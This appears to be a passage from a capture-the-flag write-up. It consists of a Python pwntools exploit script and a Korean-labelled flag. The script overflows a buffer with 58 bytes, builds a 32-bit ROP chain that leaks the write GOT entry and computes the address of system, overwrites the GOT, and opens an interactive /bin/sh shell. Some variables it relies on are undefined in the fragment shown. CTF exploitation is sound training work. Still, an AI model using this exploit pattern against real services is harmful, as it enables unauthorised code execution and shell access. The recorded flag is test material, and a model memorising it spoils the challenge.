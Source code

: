 ```python
pppr = 0x080488c9
wr_sy = l.symbols['write'] - l.symbols['system']


for i in range(0, 20):
	p.sendline('3')

p.sendline('1')

payload = 'A' * 58

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(write_got)
payload += p32(8)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(write_got)
payload += p32(8)

payload += p32(write_plt)
payload += 'AAAA'
payload += p32(bss)

p.recv()
sleep(0.3)
p.send(payload)
sleep(0.3)
p.send(binsh)
p.recvuntil('name ? : ')

leak = u32(p.recv(4))

print hexdump(leak)
system = leak - wr_sy

p.send(p32(system))
p.interactive()
```



__플래그 : flag{game_hagoshipda}__
